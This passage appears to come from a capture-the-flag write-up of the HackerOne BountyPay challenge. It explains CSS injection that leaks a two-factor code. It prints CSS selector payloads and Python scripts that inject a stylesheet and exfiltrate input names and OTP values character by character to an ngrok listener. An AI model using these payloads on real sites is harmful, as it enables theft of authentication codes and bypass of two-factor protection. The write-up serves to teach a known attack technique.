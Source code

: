 To try and get an idea on the name of the field, I used this css file :

```css
[id="code"i] {background:url("http://code.f4d745fe3bcf.ngrok.io");}
[id="otp"i] {background:url("http://otp.f4d745fe3bcf.ngrok.io");}
[id="2fa"i] {background:url("http://2fa.f4d745fe3bcf.ngrok.io");}
[id="challenge"i] {background:url("http://challenge.f4d745fe3bcf.ngrok.io");}
[id="challenge_answer"i] {background:url("http://challenge_answer.f4d745fe3bcf.ngrok.io");}
[id="token"i] {background:url("http://token.f4d745fe3bcf.ngrok.io");}
[id="totp"i] {background:url("http://totp.f4d745fe3bcf.ngrok.io");}
[name="code"i] {background:url("http://code.f4d745fe3bcf.ngrok.io");}
[name="otp"i] {background:url("http://otp.f4d745fe3bcf.ngrok.io");}
[name="2fa"i] {background:url("http://2fa.f4d745fe3bcf.ngrok.io");}
[name="challenge"i] {background:url("http://challenge.f4d745fe3bcf.ngrok.io");}
[name="challenge_answer"i] {background:url("http://challenge_answer.f4d745fe3bcf.ngrok.io");}
[name="token"i] {background:url("http://token.f4d745fe3bcf.ngrok.io");}
[name="totp"i] {background:url("http://totp.f4d745fe3bcf.ngrok.io");}
```

but I didn't get any callback on my listener, so I thought that the name was gonna be a bit more difficult to find.

I wrote yet another python script to help me get the name of the field I was searching for :

```python
import requests
from bs4 import BeautifulSoup

alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
url_challenge = 'https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba'
url_local = 'https://4291e5a07787.ngrok.io'
for c in alphabet:
    css_payload = 'input[name^=""] ~ * { background-image: url("https://4291e5a07787.ngrok.io/1/'+ c +'"); }'
    f = open("selector.css", "w")
    f.write(css_payload)
    f.close()
    post = {'app_style': 'https://4291e5a07787.ngrok.io/selector.css'}
    x = requests.post(url_challenge, data = post, cookies = {"token": "eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9"})
    print("testing : " + css_payload)
```

I made sure I was using the `~ *` css selector, and the `^=` to try character by character, like explained in the blog post to make sure I would get the right field even if there was a `type=hidden`.

I got to find that the name began by `code_`, and then something wieird happened, I got 6 characters, 1 to 6.

After verifying my results a few times, I came to the only possible conclusion, there must have been the fields `code_1` to `code_6` !

After that, I started using the same technique to get the value, but I found out quickly that the values were changing everytime, hence the 2 minutes timestamp.
so I figured I needed to create a css file containing every line I needed to get the value :
```python
import requests
from bs4 import BeautifulSoup

alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-+'
url_challenge = 'https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba'
url_local = 'https://4291e5a07787.ngrok.io'
for i in range(1,6):
    for c in alphabet:
        css_payload = 'input[name="code_' + i + '"][value^="' + c + '"] ~ * { background-image: url("https://4291e5a07787.ngrok.io/' + i + '/'+ c +'"); }' 
        f = open("selector.css", "a")
        f.write(css_payload + "\n")
```